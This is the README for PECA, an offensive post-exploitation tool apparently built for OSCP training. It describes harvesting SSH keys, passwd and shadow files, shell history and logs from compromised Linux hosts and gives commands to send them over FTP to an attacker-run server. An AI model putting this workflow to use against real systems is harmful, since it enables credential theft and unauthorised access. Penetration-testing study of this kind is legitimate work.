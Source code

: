 # PECA
Post Exploitation Collection Agent

##### Requirments
    To run the server you will need to have pyftpdlib installed
     
Note: For educational use only
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
##### Intro:

  Peca was designed to help collect key files from linux 
  machines after exploitation has occured. Originally
  designed to help with data gathering during the OSCP

##### Features:

  * Collects ssh keys from root and home directories
  * Collects .bash* from root and home directories
  * Collects passwd/shadow/group files
  * Collects webservice logs from popular services
  * Collects IPTable data


##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user user --password user
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user user --password user
```

##### Technical:
```
	Communicates utilizing the ftp protocol.
```